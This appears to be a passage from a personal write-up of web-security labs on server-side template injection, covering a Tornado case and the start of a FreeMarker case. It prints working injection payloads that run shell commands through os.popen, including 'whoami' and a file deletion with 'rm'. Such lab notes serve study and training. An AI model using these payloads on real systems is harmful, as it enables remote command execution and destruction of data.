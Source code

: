   ```
* From error i got to know that i need to fix my command by balance it -> user.first_name{{ "7*7 #

* Mean i need to do this -> }}{{7*7}}

* So in POST Request -> /my-account/change-blog-post-author-display

  * I put my payload there }}{{7*7}

  * And when i check blog post comment i saw ->

  * Peter49}} | 01 November 2020                        

    { 7*7 }

* Mean it works

* user.first_name}}{%25+import+os+%25}{{+os.popen("whoami").read()+}}

* This above payload give result -> Petercarlos

* `user.first_name}}{%25+import+os+%25}{{+os.popen("rm+morale.txt").read()+}}`




Reference => https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/





#### 3. Server-side template injection using documentation =>



* In this lab, we need to find what template engine the target is using and solve by reading documentation and referneces

* I checked products and visitd Product id=1 and there at bottom saw -> "Edit Template"

* By clicking on it it goes to -> product/template?productId=1

* <p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p>

  This above code using

* ${} <- this expression -> ES6 Template

* I tried this -> 

  ```
  `${7*7}`
  ```

* And got result 49 

* great

* Then i used -> Dir.entries('/')

* Saw this -> FreeMarker template error (DEBUG mode; use RETHROW in production!):

* Perfect , so this is FreeMarker Template
  ```
